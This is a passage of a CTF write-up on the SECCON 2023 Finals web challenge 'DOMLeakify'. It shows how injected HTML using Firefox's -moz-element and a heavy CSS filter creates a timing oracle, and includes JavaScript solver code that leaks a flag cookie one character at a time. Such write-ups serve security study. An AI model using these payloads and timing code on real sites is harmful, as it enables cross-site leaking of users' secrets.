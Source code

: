 Next, if you access the following URL on Firefox:
```html
http://localhost:3000/#<div style="background-image: -moz-element(#SECCON\7b\64); height: 100px;"></div>
```

The `<div>` element does not render any background image because there is no element with `id="#SECCON{a"`:
![](/images/2023/20231228_seccon-ctf-finals-domleakify-04.png)

Can we utilize this difference to construct an oracle? Yes.

Consider the following element:
```html
<div style="
    background-image: -moz-element(#SECCON\7b\64);
    height: 1000px;
    transform: scale(200) translate(50%, 0%);
    filter: drop-shadow(8px 8px 8px blue);
"></div>
```

The style attribute applies graphical effects to the background image:
![](/images/2023/20231228_seccon-ctf-finals-domleakify-05.png)

The process is very heavy. If you increase the values of `drop-shadow`, Firefox will be busy or crash:boom:

On the other hand, consider the following element:
```html
<div style="
    background-image: -moz-element(#SECCON\7b\61);
    height: 1000px;
    transform: scale(200) translate(50%, 0%);
    filter: drop-shadow(8px 8px 8px blue);
"></div>
```

The `<div>` element does not render any background image and the rendering process is light:
![](/images/2023/20231228_seccon-ctf-finals-domleakify-06.png)

Okay, it is possible to detect whether the element with a given ID exists or not using typical XS-Leak techniques to judge the busy state of the browser!

Therefore, using the oracle, it is also possible to leak one character of the flag cookie at a time from the beginning.

### Solver

In my solver, the function used for the timing attack is like this:
```javascript
// https://github.com/arkark/my-ctf-challenges/blob/main/challenges/202312_SECCON_CTF_2023_Finals/web/domleakify/solver/public/main.js#L20-L45

const measure = async (prefix) => {
  const hex = [...prefix]
    .map((c) => "\\" + c.charCodeAt(0).toString(16).padStart(2, "0"))
    .join("");
  const url = `${BASE_URL}#${encodeURIComponent(
    `<div style="background-image: -moz-element(#${hex}); height: 1000px; transform: scale(200) translate(50%, 0%); filter: drop-shadow(36px 36px 36px blue);"></div>`
  )}`;

  const ws = [];

  ws.push(open(url));
  await Promise.all(ws.map((w) => wait(w)));
```

[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/
